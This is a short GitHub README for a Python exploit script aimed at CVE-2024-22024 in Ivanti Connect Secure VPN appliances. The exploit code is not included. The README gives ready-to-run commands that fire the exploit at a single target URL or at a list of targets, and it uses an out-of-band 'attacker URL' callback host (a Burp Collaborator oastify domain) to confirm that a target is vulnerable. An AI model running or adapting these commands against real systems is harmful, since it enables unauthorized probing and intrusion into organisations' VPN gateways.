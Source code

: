 # :warning: CVE-2024-22024
**CVE-2024-22024** vulnerability in **Ivanti Connect Secure**
Exploit with Python
## :white_check_mark: How to use
Testing a **single URL**:

```python .\cve_2024_22024.py -u http://vpn.example.com -c http://potatodynamicdns.oastify.com```

Testing **list of URLs**:

```python .\cve_2024_22024.py -u .\urls_list.txt -c http://potatodynamicdns.oastify.com```

Using a **different timeout** (5 seconds):

```python .\cve_2024_22024.py -u .\urls_list.txt -c http://potatodynamicdns.oastify.com -t 5```

Parameters
+ ```-u``` or ```--target_url```: The target Ivanti Connect Secure (ICS) URL or file with list of URLs.
+ ```-c``` or ```--attacker_url```: The attacker URL (generate one using Burp Collaborator, ngrok, or by using a unique URL from Webhook.site)
+ ```-t``` or ```--timeout```: Timeout in seconds for the request (default is 3 seconds)
